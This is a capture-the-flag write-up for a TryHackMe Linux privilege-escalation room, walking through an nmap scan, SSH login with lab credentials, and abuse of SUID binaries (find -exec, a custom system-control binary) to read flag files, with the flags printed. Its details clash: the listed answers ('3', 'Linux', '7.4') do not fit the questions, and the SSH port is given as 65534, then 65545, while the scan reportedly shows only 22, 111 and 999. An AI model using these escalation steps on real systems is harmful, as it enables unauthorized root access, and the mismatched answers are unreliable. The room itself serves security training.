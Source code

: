 ## Introduction

> Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

> Deploy and SSH into the machine.  
> Username: holly  
> Password: tuD@4vt0G*TU

> SSH is not running on the standard port.. You might need to nmap scan the machine to find which port SSH is running on.  
> `nmap <machine_ip> -p <start_port>-<end_port>`

> [Read the supporting materials here](./Supporting_Doc.html).

## Questions

> 1) What port is SSH running on?

td:lr Answer: **3**

> 2) Find and run a file as igor. Read the file /home/igor/flag1.txt

td:lr Answer: **Linux**

> 3) Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

td:lr Answer: **7.4**

> 4) If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: https://tryhackme.com/room/privescplayground 

No answer needed.

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we need to do a full nmap for all TCP ports:

`nmap <ip> -T4 -p-` - will reveal open ports 22, 111, 999

We will find the SSH port: **65534**


SSH into the machine at port 65545:
`ssh holly@<ip> -p 65534` - password: `tuD@4vt0G*TU`

We need to read flag1.txt found in igor's directory. So let's look for commands that can be executed by user _igor_.

`find / -user igor -perm -4000 -print 2>/dev/null`  
We get 2 commands that will run as _igor_: _find_ and _nmap_  
So we can use find to execute reading the contents of _flag1.txt_:

`find ../ -name flag1.txt -exec cat /home/igor/flag1.txt \; 2>/dev/null`
We will get our answer: **THM{d3f0708bdd9accda7f937d013eaf2cd8}**

We need to find a SUID command that can let us look at /root/flag2.txt as root user:  
`find / -user root -perm -4000 -print 2>/dev/null`  
We find an uncommon binary file --> `usr/bin/system-control`  
We can run it and see what happens:

`usr/bin/system-control`  
`cat /root/flag2.txt`

![](./res/pic1.png)

We successfully got the flag2: **THM{8c8211826239d849fa8d6df03749c3a2}**



